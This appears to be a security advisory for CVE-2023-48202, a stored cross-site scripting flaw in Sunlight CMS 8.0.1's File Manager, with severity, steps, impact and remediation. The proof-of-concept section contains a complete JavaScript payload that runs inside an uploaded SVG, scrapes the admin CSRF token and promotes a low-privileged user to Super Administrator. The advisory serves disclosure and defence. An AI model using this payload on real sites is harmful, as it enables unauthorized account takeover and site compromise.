 # Stored Cross-Site Scripting (XSS) in SVG image file uploaded in File Manager in Sunlight CMS 8.0.1

> https://github.com/sunlight-cms/sunlight-cms

# Vulnerability Type
CWE-79: Cross-site Scripting (XSS) - Stored

# CVSS 8.0 HIGH
CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:U/C:H/I:H/A:H

# Description
A user that is in the 'Editors' group or any group that can upload files in the File Manager, is able to upload an SVG file with malicious Javascript code. After an Administrator or Super Administrator clicks and opens the image, the malicious code is executed.

# Execution steps
1. Create the new user 'editor1' and adde it to the group 'Editors'.
2. The user 'editor1' uploads a malicious SVG file.
3. Access the image using the File Manager as a Super Administrator to execute the malicious code in the SVG image.
4. User 'editor1' is added to the 'Super Administrators' group.

# Impact
Stored Cross-Site Scripting vulnerability in Sunlight CMS 8.0.1 allows an authenticated low-privileged user to escalate his privileges. A malicious user that is in the 'Moderators' group or any group that can upload files in the File Manager, can escalate his privileges to any higher level group, including Administrators and Super Administrators without being authorized. The malicious user can then create, edit and delete any content in the CMS, create/edit/delete users with any privilege and read the database using the backup functionality.

# Remediation
Sanitize SVG image files by removing scripts before rendering or convert SVG image files to safer formats like PNG and JPG.

# Proof of Concept code
Create a valid SVG image file and then add the following code:

```js
<script type="text/javascript">
	var csrf_token;
	var xhrGET_users_edit = new XMLHttpRequest(); 
	xhrGET_users_edit.responseType = "document"; 
	xhrGET_users_edit.onreadystatechange = function() {	
		if (this.readyState == 4 &amp;&amp; this.status == 200) {
			var doc = this.responseXML ;
			csrf_token = doc.getElementsByName("_security_token")[0].value;		
			var xhr = new XMLHttpRequest();
			xhr.open("POST", "http:\/\/sunlight\/admin\/index.php?p=users-edit&amp;id=editor1", true);
			xhr.setRequestHeader("Content-Type", "application\/x-www-form-urlencoded");
			xhr.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,image\/avif,image\/webp,image\/apng,*\/*;q=0.8,application\/signed-exchange;v=b3;q=0.7");
			xhr.setRequestHeader("Accept-Language", "en-US,en;q=0.9");
			xhr.withCredentials = true;
			var body = "username=editor1&amp;publicname=editor1&amp;email=editor1%40test.tk&amp;password=&amp;group_id=1&amp;wysiwyg=1&amp;public=1&amp;note=&amp;_security_token="+csrf_token;
			var aBody = new Uint8Array(body.length);
			for (var i = 0; i &lt; aBody.length ; i++)
				aBody[i] = body.charCodeAt(i); 
			xhr.send(new Blob([aBody]));
		}
	};
	xhrGET_users_edit.open("GET", "/admin/index.php?p=users-edit&amp;id=editor1", true);
	xhrGET_users_edit.send();
</script>
```

# References
- [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-48202](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-48202)
- [https://github.com/sunlight-cms/sunlight-cms/commit/21c2bb50fbf99921a1deaf89ebe965b34ff03f51](https://github.com/sunlight-cms/sunlight-cms/commit/21c2bb50fbf99921a1deaf89ebe965b34ff03f51)
- [https://nvd.nist.gov/vuln/detail/CVE-2023-48202](https://nvd.nist.gov/vuln/detail/CVE-2023-48202)
